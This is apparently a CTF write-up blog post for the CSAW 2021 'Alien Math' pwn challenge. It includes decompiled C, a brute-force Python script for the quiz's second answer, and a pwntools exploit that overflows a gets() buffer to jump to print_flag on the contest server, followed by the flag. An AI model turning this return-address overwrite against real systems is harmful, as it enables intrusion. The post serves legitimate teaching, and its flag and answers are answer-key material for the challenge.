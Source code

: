 +++
title = "CSAW CTF Qualification Round 2021 - Alien Math"
date = 2021-09-14
[taxonomies]
categories = ["ctfs"]
tags = ["csawctf2021", "pwn"]
+++

# Alien Math

## Task description

Brush off your Flirbgarple textbooks!

[alien_math](/files/csawctf2021/alien_math)

## Solution

The application asks 3 questions and while the first two are implemented correctly the 3rd uses `gets`. So, we have to correctly answer to the first two questions and then just do a simple buffer overflow. In addition, there's a function called print_flag which prints the flag.

```c
undefined8 main(void)
{
  int iVar1;
  undefined local_38 [36];
  int local_14;
  long local_10;

  puts("\n==== Flirbgarple Math Pop Quiz ====");
  puts("=== Make an A to receive a flag! ===\n");
  puts("What is the square root of zopnol?");
  fflush(stdout);
  __isoc99_scanf(&DAT_0040220b,&local_14);
  iVar1 = rand();
  local_10 = (long)iVar1;
  if (local_10 == (long)local_14) {
    puts("Correct!\n");
    fflush(stdout);
    getchar();
    puts("How many tewgrunbs are in a qorbnorbf?");
    fflush(stdout);
    __isoc99_scanf(&DAT_00402247,local_38);
    second_question(local_38);
  }
  else {
    puts("Incorrect. That\'s an F for you!");
  }
  return 0;
}
```

The first question does `rand()` without setting the seed and the default seed value is 0 (not always, it depends on the implementation). So it's a constant.

```c
void second_question(char *param_1)
{
  char cVar1;
  int iVar2;
  size_t __n;
  ulong uVar3;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  int local_1c;

  local_1c = 0;
  while( true ) {
    uVar3 = SEXT48(local_1c);
    __n = strlen(param_1);
    if (__n - 1 <= uVar3) {
      local_38 = 3762247539570849591;
      local_30 = 3689067348388623672;
      local_28 = 58489707246130;
      __n = strlen((char *)&local_38);
      iVar2 = strncmp((char *)&local_38,param_1,__n);
      if (iVar2 == 0) {
        puts("Genius! One question left...\n");
        final_question();
        puts("Not quite. Double check your calculations.\nYou made a B. So close!\n");
      }
      else {
        puts("You get a C. No flag this time.\n");
      }
      return;
    }
    if ((param_1[local_1c] < '0') || ('9' < param_1[local_1c])) break;
    cVar1 = param_1[(long)local_1c + 1];
    iVar2 = second_question_function
                      ((ulong)(uint)(int)param_1[local_1c],
                       (ulong)(uint)(param_1[local_1c] + local_1c),
                       (ulong)(uint)(param_1[local_1c] + local_1c));
    iVar2 = (int)cVar1 + -0x30 + iVar2;
    param_1[(long)local_1c + 1] = (char)iVar2 + (char)(iVar2 / 10) * -10 + '0';
    local_1c = local_1c + 1;
  }
  puts("Xolplsmorp! Invalid input!\n");
  puts("You get a C. No flag this time.\n");
  return;
}

ulong second_question_function(int param_1,int param_2)
{
  return (ulong)((uint)((param_1 + -0x30) * 0x30 + (param_2 + -0x30) * 0xb + -4) % 10);
}
```

The second question takes a line, does some operations on it and compares with the hardcoded value. The decompiled code is a bit of a bad quality but it could be summarized to this pseudocode:

```py3
input_str = "12345" # only numbers are allowed
for i in range(len(input_str) - 1):
    input_str[i + 1] = do_something(input_str[i], input_str[i + 1])

if input_str == "7759406485255323229225":
    final_question()
```

Which means that we can bruteforce it easily. A thing to note is that the first letter has to be 7 because it can't be modified (modifications start from index 1).

```py3
from string import digits


def second_func(a, b):
    return ((a - 0x30) * 0x30 + (b - 0x30) * 0xB - 4) % 10


def encrypt(input_str):
    input_str = [ord(c) for c in input_str]

    for i in range(len(input_str) - 1):
        c1 = input_str[i + 1]
        c2 = second_func(input_str[i], input_str[i] + i)

        c3 = c1 - 0x30 + c2

        input_str[i + 1] = c3 - (c3 // 10) * 10 + ord("0")

    input_str = [chr(i) for i in input_str]

    return "".join(input_str)


solutions = ["7"]
encrypted = "7759406485255323229225"

for i in range(len(encrypted) - 1):
    new_solutions = []
    for p in solutions:
        for s in digits:
            o = encrypt(p + s)
            if encrypted.startswith(o):
                new_solutions.append(p + s)

    solutions = new_solutions

print(solutions)
```

```c
void final_question(void)
{
  undefined8 local_18;
  undefined8 local_10;

  local_18 = 0;
  local_10 = 0;
  puts(
      "How long does it take for a toblob of energy to be transferred between two quantum entangledsalwzoblrs?"
      );
  fflush(stdout);
  getchar();
  gets((char *)&local_18);
  return;
}
```

The final exploit.

```py3
from pwn import *

# io = process("./alien_math")
io = remote("pwn.chal.csaw.io", 5004)

io.sendline("1804289383".encode())  # first question

io.sendline("7856445899213065428791".encode())  # second question

payload = b"A" * cyclic_find(0x61616167)
payload += p64(0x004014FB)  # print_flag function address
io.sendline(payload)

io.interactive()
```

The flag: `flag{w3fL15n1Rx!_y0u_r34lLy_4R3_@_fL1rBg@rpL3_m4573R!}`
